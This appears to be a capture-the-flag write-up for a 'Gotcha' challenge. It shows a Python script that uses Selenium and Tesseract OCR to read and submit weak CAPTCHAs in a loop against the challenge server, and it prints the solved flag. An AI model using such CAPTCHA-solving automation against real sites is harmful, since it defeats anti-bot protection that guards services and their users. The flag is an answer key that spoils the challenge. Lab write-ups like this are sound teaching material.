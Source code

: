 ## Gotcha

> This challenge requires us to solve 100 CAPTCHA challenges within 2 minutes to get the flag. It is also noted that all letters are uppercase.

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Miscellaneous/Medium/Gotcha/chall.png)

> It is noted that the CAPTCHA implemented is weak and can be recognized by tools like [Tesseract-OCR](https://github.com/tesseract-ocr/tesseract) without much preprocessing needed.

> We can use [Selenium](https://pypi.org/project/selenium/), an automated web testing software, to grab the image, and the respective fields needed for submitting the captcha form.

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Miscellaneous/Medium/Gotcha/src.png)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Miscellaneous/Medium/Gotcha/captchaform.png)

> We can then write the exploit script as follows:

```python
from PIL import Image
from io import BytesIO
import base64
import pytesseract
from selenium import webdriver
from selenium.webdriver.common.by import By
from selenium.webdriver.chrome.service import Service
from selenium.webdriver.common.keys import Keys

chrome_driver_path = "C:\\chromedriver.exe"  
service = Service(chrome_driver_path)
driver = webdriver.Chrome(service=service)

# Navigate to the website
driver.get("http://34.124.157.94:5003/")

while True:
    # Get the image data from src and decode in base64
    image_element = driver.find_element(By.CLASS_NAME, "img-fluid")
    image_url = image_element.get_attribute("src")
    image_strip = image_url[23:]
    image_data = base64.b64decode(image_strip)

    # Create a PIL Image object from the decoded image data
    image = Image.open(BytesIO(image_data))

    # Perform OCR using Tesseract
    pytesseract.pytesseract.tesseract_cmd = r'C:\Program Files\Tesseract-OCR\tesseract'
    text = pytesseract.image_to_string(image)

    # Extra Improvements
    final = text.upper()[:4]
    print(final)

    # Submitting Result
    captcha_field = driver.find_element(By.ID, "captch_form")
    captcha_field.clear()
    captcha_field.send_keys(final)
    captcha_field.send_keys(Keys.ENTER)
```

> You can watch the exploit video [here](https://youtu.be/Tt-p2hmM6pQ)

![image](https://github.com/Rookie441/CTF/blob/main/Categories/Miscellaneous/Medium/Gotcha/solved.png)

`grey{I_4m_hum4n_n0w_059e3995f03a783dae82580ec144ad16}`
